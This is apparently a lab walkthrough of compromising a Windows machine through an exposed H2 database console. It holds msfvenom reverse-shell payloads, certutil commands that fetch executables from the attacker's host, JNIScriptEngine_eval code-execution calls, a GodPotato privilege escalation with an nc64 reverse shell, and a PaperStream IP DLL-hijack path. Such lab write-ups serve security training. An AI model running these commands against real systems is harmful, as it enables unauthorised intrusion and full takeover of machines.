









We discover port 80
# 80

We can change password with the api on this JDBC

# 8082
We are presented with H2 console:

We can change the database to something that doesn't exist and check:

User tony found

We can try an exploit:
https://www.exploit-db.com/exploits/49384

We got working code execution.

Now we can create a shell:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.236 LPORT=1234 -f exe > reverse.exe
```
now we can transfer this with:
```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -f http://192.168.45.236/reverse.exe C:/Users/Public/reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

Now to get the reverse shell back:
```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:/Users/Public/reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

Nothing works

Using full path:
```
C:\Windows\system32\whoami.exe /priv
```

We can also set the path:
```
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```
We have SeImpersonatePrivilege so trying Godpotato:
```
.\GodPotato.exe -cmd "C:\Users\Public\nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.236 9092"
```


We get a shell but it is a broken shell.

# Alternate Method

We find an unusual program:

Using the exploit for PaperStream IP
https://www.exploit-db.com/exploits/49382
Now generate msfvenom payload:
```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.45.236 LPORT=9092
```

Transfer it to the machine:
```
certutil -urlcache -f http://192.168.45.236/shell.dll C:\Windows\Temp\UninOldIS.dll
```
Now run exploit:
```
.\paper.ps1
```